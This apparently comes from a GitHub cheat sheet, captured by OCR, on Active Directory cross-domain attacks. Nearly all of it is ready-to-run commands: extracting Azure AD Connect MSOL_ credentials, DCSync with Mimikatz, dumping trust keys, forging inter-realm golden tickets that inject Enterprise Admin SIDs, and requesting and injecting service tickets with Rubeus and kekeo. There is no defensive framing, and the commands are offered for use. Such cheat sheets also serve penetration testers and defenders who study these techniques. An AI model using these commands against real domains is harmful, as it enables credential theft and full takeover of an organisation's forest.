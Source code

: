 ````
 
## Cross Domain attacks
## Azure AD
#### Enumerate where PHS AD connect is installed
```
Get-DomainUser -Identity "MSOL_*" -Domain <DOMAIN>
```

#### On the AD connect server extract MSOL_ Credentials
```
.\adconnect.ps1
```

#### Run cmd as MSOL_
```
runas /user:<DOMAIN>\<USER> /netonly cmd
```

#### Execute DCSync
- use ```/all``` instead of ```/user``` to list all users
```
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DOMAIN>\krbtgt /domain:<DOMAIN>"'
```

## Child to Forest Root
### Trust key
- Abuses SID History
#### Dump trust keys
- Look for in trust key from child to parent (first command)
- The mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for the Forest Enterprise Admin Group
```
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -Computername <COMPUTERNAME>
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<CHILD DOMAIN>\<PARENT DOMAIN>$"'
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
```

#### Create an inter-realm TGT
- Uses well know Enterprise Admins SIDS
- ```Get-DomainGroup "Enterprise Admins" -Domain <TARGET DOMAIN> | Select-Object samaccountname, objectsid```
```
Invoke-Mimikatz -Command '"Kerberos::golden /user:Administrator /domain:<FQDN CHILD DOMAIN> /sid:<SID CHILD DOMAIN> /sids:<SIDS OF ENTERPRISE ADMIN GROUP OF TARGET> /rc4:<TRUST KEY HASH> /service:krbtgt /target:<FQDN PARENT DOMAIN> /ticket:<PATH TO SAVE TICKET>"'
```

#### Create a TGS using Rubeus and inject current Powershell session
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
.\Rubeus.exe asktgs /ticket:<KIRBI FILE> /service:<SERVICE>/<FQDN PARENT DC> /dc:<FQDN PARENT DC> /ptt
```

#### Create a TGS for a service (kekeo_old and new)
- Possbible services: CIFS for directory browsing, HOST and RPCSS for WMI, HOST and HTTP for PowerShell Remoting/WINRM, LDAP for dcsync
```
./asktgs.exe <KIRBI FILE> <SERVICE>/<FQDN PARENT DC>
tgs::ask /tgt:<KIRBI FILE> /service:<SERVICE>/<FQDN PARENT DC>
```

#### Use TGS to access the targeted service (may need to run it twice) (kekeo_old and new)
```
./kirbikator.exe lsa .\<KIRBI FILE>
````
